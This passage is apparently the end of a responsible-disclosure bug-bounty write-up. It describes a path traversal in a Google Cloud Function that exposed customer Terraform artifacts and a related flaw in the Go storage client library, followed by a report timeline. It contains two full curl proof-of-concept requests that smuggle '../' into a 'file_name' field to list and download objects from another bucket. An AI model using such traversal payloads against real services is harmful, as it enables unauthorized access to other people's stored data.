Taking advantage of the fact, that I got access to the source code of the Cloud Function, the assessment turned from a [grey-box](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-gray-box-testing/) [^7] to a [white-box](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-white-box-testing/) one:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/whitebox.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/whitebox.png"/>
</a>
</p>

It seemed to me plausible although unlikely, that I could perhaps traverse the path using [dot-dot-slash (../)](https://owasp.org/www-community/attacks/Path_Traversal) and list all objects from a given bucket 💡

> The Google Cloud Storage [XML API](https://cloud.google.com/storage/docs/xml-api/overview) has a really simple [schema](https://cloud.google.com/storage/docs/xml-api/reference-methods) which made the above hypothesis more reasonable than one would think

## Unauthorized access to Terraform Artifacts

It turns out that my intuition proved to be correct (!)

Response to below request contained a listing of a 1000 [^8] objects ie. **customer generated zipped Terraform files** from bucket `adt-tf-artifacts`
```sh
curl 'https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn/load_architecture' \
  -H 'accept: */*' \
  -H 'content-type: application/json;charset=UTF-8' \
  -H 'origin: https://googlecloudcheatsheet.withgoogle.com' \
  -H 'referer: https://googlecloudcheatsheet.withgoogle.com/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  --data-binary @- << EOF
  {
    "file_name": "../adt-tf-artifacts/",
    "key": "qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"
  } 
EOF > adt-tf-artifacts.xml
```

An attacker could later fetch arbitrary objects from this & potentially other buckets, thus bypassing a significant security boundary:
```sh
curl 'https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn/load_architecture' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'content-type: application/json;charset=UTF-8' \
  -H 'origin: https://googlecloudcheatsheet.withgoogle.com' \
  -H 'referer: https://googlecloudcheatsheet.withgoogle.com/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  --data-binary @- << EOF
  {
    "file_name": "../adt-tf-artifacts/38cd6c1f-907f-45f7-a355-df1b94eb88eb/adt-terraform.zip",
    "key": "qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"
  }
EOF > 38cd6c1f-907f-45f7-a355-df1b94eb88eb.zip
```

Below is the recording which I sent to the Google VRP Team:

<p align="center">
<a href="https://drive.google.com/file/d/1OG3uQfGv1PBVmiBmt7FeKfx8ZOqEdNMK/preview" target="_blank">
  <img src="https://lh3.googleusercontent.com/d/1OG3uQfGv1PBVmiBmt7FeKfx8ZOqEdNMK=w1000"/>
</a>
</p>

The reported attack scenario was a breach of a significant security boundary and eventually got classified as `"unrestricted file system or database access"`

> Careful reader probably realized that this vulnerability was introducded alongside the mitigation desribed in [Surprising bypass](#surprising-bypass) - it didn't exist beforehand (!)

## Stumbling on an N-day in Go Cloud Storage client library
While I initially pointed the blame to classic AppSec shortcomings (mostly lack of input validation) it soon occured to me that the **client library itself should've prevented this attack scenario**.

One could reasonably postulate a following [security invariant](https://alsmola.medium.com/security-invariants-or-gtfo-d7db2950f95):

_For a given instance of `client.Bucket({bucket}).Object({object}).NewReader(ctx)`, no value of `{object}` should result in a download from a Bucket != `{bucket}`_

Here's the followup email which I sent a few days after my initial submission:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/go_storage_bucket_traversal.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/go_storage_bucket_traversal.png"/>
</a>
</p>

And here's the fix, which I don't believe was security driven:
<p align="center">
<a href="https://github.com/googleapis/google-cloud-go/commit/6b7b21f8a334b6ad3a25e1f66ae1265b4d1f0995
" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/path_traversal_fix.png"/>
</a>
</p>

> ⚠️ PSA: if your application still uses [cloud.google.com/go/storage](https://pkg.go.dev/cloud.google.com/go/storage) version < `1.31.0`, then I'd strongly encourage to upgrade!

## Attack scenario diagram #4

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenraio_diagram_num_4.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenraio_diagram_num_4.png"/>
</a>
</p>

---

# Closing Remarks
In retrospect, following the inutition and curiosity proved to be extremly valuable!

From a strictly business standpoint: risk was reduced & bounties were payed out -> KPIs/OKRs achieved 📈

On a more serious note - I learned **a ton** and this expercience reignited my interest in the offensive side of security.

What's more, I ended up presenting a talk about this entire scenario during [The Hack Summit](https://thehacksummit.com/en/#agenda) 2024 (!) ([slides](https://speakerdeck.com/jdomeracki/sketchy_cheat_sheet))

Last but not least. I'd like to thank:
- my colleagues @ [Egnyte](https://www.egnyte.com/) who supported me along the way 
- Google Security Team for their open-mindedness & willingnes to proofread this writeup!
- my Mom who patiently endured my excited phone calls 💖

---

# Full timeline
Nov 22, 2023: Initial submission of [issu.ee/312687013](https://issuetracker.google.com/issues/312687013)\
Nov 22, 2023: *Status: Won't Fix (Not Reproducible)*\
Nov 23, 2023: Clarification + full PoC\
Nov 23, 2023: 🎉 Nice catch! (P2,S2)\
Nov 28, 2023: Submitted report on the misconfigured Firebase Cloud Storage bucket allowing read & write operations [issu.ee/313685590](https://issuetracker.google.com/issues/313685590)\
Nov 30, 2023: 🎉 Nice catch! (P2,S2)\
Dec 27, 2023: [issu.ee/313685590](https://issuetracker.google.com/issues/313685590) status changed to `fixed`\
Mar 16, 2024: Found out that the bucket is still publicly readable & writable\
Mar 20, 2024: [issu.ee/313685590](https://issuetracker.google.com/issues/313685590) got reopened & assigned\
Mar 28, 2024: VRP Panel decided not to reward monetarly for the second time, but got a coupon for a cool hat instead\
Apr 06, 2024: Reported a bypass of the mitigation introduced somewhen in Q1 2024 and submitted a new report [issu.ee/333194226](https://issuetracker.google.com/issues/333194226)\
Apr 10, 2024: 🎉 Nice catch! (P2,S2)\
Jun 15, 2024: Ability to overwrite deployable architectures opens room for RCE in victim's GCP infrastructure [issu.ee/347462501](https://issuetracker.google.com/issues/347462501)\
Jun 26, 2024: 🎉 Nice catch! (P2,S2)\
Jun 26, 2024: Reported anonymous access to a Gerrit instance containing the backend source code [issu.ee/349432799](https://issuetracker.google.com/issues/349432799)\
Jun 27, 2024: Unauthorized access to a GCS bucket containing Terraform artifacts via a misconfigured Cloud Function [issu.ee/349831037](https://issuetracker.google.com/issues/349831037)\
Jun 27, 2024: 🎉 Nice catch! (P1,S1)\
Jul 02, 2024: 🎉 Nice catch! (P2,S2)\
Jul XY, 2024: [https://googlecloudcheatsheet.withgoogle.com/architecture](https://googlecloudcheatsheet.withgoogle.com/architecture) got taken down 🚧\
Oct XY, 2024: Silently EOL-ed 🪦

---

[^1]: [https://cloud.google.com/blog/topics/developers-practitioners/introducing-google-cloud-architecture-diagramming-tool](https://cloud.google.com/blog/topics/developers-practitioners/introducing-google-cloud-architecture-diagramming-tool)
[^2]: [https://www.googlecloudcommunity.com/gc/Tips-Tricks/GCP-Architecture-Diagramming-Tool/td-p/394583](https://www.googlecloudcommunity.com/gc/Tips-Tricks/GCP-Architecture-Diagramming-Tool/td-p/394583)
[^3]: Recent example -> [https://arc.net/blog/CVE-2024-45489-incident-response](https://arc.net/blog/CVE-2024-45489-incident-response), [https://kibty.town/blog/arc/](https://kibty.town/blog/arc/)
[^4]: [https://gerrit-review.googlesource.com/Documentation/access-control.html](https://gerrit-review.googlesource.com/Documentation/access-control.html)
[^5]: Original writeup -> [https://labs.detectify.com/writeups/bypassing-and-exploiting-bucket-upload-policies-and-signed-urls](https://labs.detectify.com/writeups/bypassing-and-exploiting-bucket-upload-policies-and-signed-urls)
[^6]: [BBRE videoblog](https://youtu.be/AQ-iEqdepA4) describing the by [Grzegorz Niedziela aka gregxsunday](https://twitter.com/gregxsunday)
[^7]: In my opinion Web App pentests of client-side heavy, modern [SPAs](https://developer.mozilla.org/en-US/docs/Glossary/SPA) isn't really [black-box](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-penetration-testing/what-is-black-box-testing/) due to the simple fact that a significant portion of the business logic is exposed
[^8]: This is the default value of [max-keys](https://cloud.google.com/storage/docs/xml-api/reference-headers#maxkeys) and was a limitation which I was not able to bypass (could not add any query paramters)

<script src="https://utteranc.es/client.js"
repo="jdomeracki/jdomeracki.github.io"
issue-term="pathname"
theme="github-dark"
crossorigin="anonymous"
async>
</script>
